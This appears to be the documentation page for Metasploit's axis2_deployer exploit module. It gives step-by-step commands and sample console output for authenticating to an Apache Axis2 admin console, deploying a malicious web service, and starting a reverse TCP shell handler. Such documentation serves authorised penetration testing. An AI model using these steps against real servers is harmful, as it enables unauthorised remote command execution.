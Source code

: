 ##Description

This module logs in to an Axis2 Web Admin Module instance using a specific user/pass and uploads and executes commands via deploying a malicious web service by using SOAP.

##Axis2 Web Admin

The Apache Axis2 Web application has three main sections:'Services' lists all the available services deployed in this server, 'Validate' checks the system to see whether all the required libraries are in place and views the system information, and 'Administration' is the Axis2 Web Administration module which is the console for administering the Apache Axis2 installation. The Axis2 Web Administration module provides a way to configure Axis2 dynamically.

**IMPORTANT:** This dynamic configuration will NOT be persistent, i.e., if the servlet container is restarted, then all the dynamic configuration changes will be lost.

## Verification Steps

1. Do: ```use exploit/multi/http/axis2_deployer```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/axis2_deployer
msf exploit(axis2_deployer) > set RHOST 10.10.155.37
RHOST => 10.10.155.37
msf exploit(axis2_deployer) > set RPORT 8080
RPORT => 8080
msf exploit(axis2_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(axis2_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(axis2_deployer) > show options

Module options (exploit/multi/http/axis2_deployer):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  admin123         no        The password for the specified username
   PATH      /axis2           yes       The URI path of the axis2 app (use /dswsbobje for SAP BusinessObjects)
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.155.37     yes       The target address
   RPORT     8080             yes       The target port
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            no        The username to authenticate as
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Java

msf exploit(axis2_deployer) > exploit

[*] Started reverse TCP handler on 10.10.155.39:4444 

```
